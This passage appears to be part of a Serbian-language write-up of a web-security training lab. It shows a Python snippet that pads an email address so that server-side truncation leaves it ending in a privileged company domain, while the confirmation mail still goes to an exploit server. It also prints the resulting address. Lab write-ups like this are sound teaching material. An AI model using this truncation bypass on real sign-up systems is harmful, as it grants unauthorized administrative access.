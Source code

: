 S tim na umu, koristimo dati pajton kod da generišemo mejl koji ćemo iskoristiti pri registraciji takav da se završava traženim domenom kada se skrati, ali da i dalje nama stigne mejl za potvrdu registracije.

```
a = '@dontwannacry.com'
while len(a) < 255:
    a = 'd' + a
a += '.exploit-0a5c003f033505d680de525d016f0096.exploit-server.net'
print(a)
```

Rezultat je _dddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd@dontwannacry.com.exploit-0a5c003f033505d680de525d016f0096.exploit-server.net_. 

![image.png](lab2/4.png)
